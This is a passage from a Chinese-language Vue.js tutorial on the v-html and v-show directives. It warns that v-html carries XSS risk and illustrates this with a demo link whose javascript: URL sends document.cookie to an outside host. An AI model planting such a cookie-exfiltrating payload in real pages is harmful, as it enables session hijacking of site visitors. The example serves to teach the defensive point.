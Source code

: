 > 有 xss 攻击风险，所以该内容不应该支持用户自定义输入

```html
<template>
  <div>
    <input type="text" v-model="element">
    <button @click="changeEle">模拟输入</button>
    <div v-html="element"/>
  </div>
</template>

<script>
export default {
  name: 'Demo',
  data() {
    return {
      element: ''
    }
  },
  methods: {
    changeEle() {
      this.element = '<a href="javascript:location.href=`http://www.baidu.com?${document.cookie}`">点击跳转截取cookie</a>'
    }
  }
}
document.cookie = 'name=jack'
</script>
```

![](https://raw.githubusercontent.com/magezee/images/main/cookie.gif)



-----

### v-show

类型：`any`

功能：根据表达式判断是否为真，如果为真则正常显示元素，如果为假则添加样式 `display: none` 隐藏

```html
<template>
  <div>
    <p v-show="isShow">active</p>
    <p v-show="!isShow">inactive</p>
  </div>
</template>

<script>
export default {
  name: 'Demo',
  data () {
    return {
      isShow: true
    }
  }
}
</script>
```
